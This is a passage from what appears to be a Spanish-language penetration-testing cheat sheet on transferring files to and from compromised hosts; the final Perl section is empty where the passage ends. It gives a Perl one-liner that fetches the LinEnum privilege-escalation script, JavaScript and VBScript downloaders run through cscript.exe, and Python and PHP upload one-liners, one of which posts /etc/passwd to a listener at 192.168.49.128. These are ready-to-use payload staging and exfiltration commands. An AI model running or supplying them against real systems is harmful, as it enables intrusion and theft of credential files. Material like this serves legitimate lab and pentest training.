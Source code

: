 ```bash
 perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
#### Javascript (`cscritp.exe` Windows)
Primero hay que crear un archivo `wget.js` con el siguiente contenido: 
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
Después utilzamos `cscript.exe`, que es nativo de Windows, del siguiente modo:
```powershell
cscript.exe script.js
```
#### VBScritp (`cscritp.exe` Windows)
Debemos crear un archivo ,p.ej: `wget.vbs`, con el siguiente contenido
```vb
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
### Subida
#### Python 3
```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
#### Python 2
```bash
python2.7 -c 'import urllib, urllib2; url = "http://target.com/upload"; file_path = "file_to_upload.txt"; with open(file_path, "rb") as f: data = {"file": f.read()}; req = urllib2.Request(url, urllib.urlencode(data)); urllib2.urlopen(req)'
```
#### PHP - `cURL` 
```bash
php -r '$ch = curl_init(); $data = array("file" => new CURLFile("file_to_upload.txt")); curl_setopt($ch, CURLOPT_URL, "http://target.com/upload"); curl_setopt($ch, CURLOPT_POST, true); curl_setopt($ch, CURLOPT_POSTFIELDS, $data); curl_exec($ch); curl_close($ch);'
```
#### PHP - Fileless
```bash
php -r '$url = "http://target.com/upload"; $file = "file_to_upload.txt"; $data = array("file" => new CURLFile($file)); echo file_get_contents($url, false, stream_context_create(array("http" => array("method" => "POST", "content" => http_build_query($data)))));'
```
#### Perl
```bash
```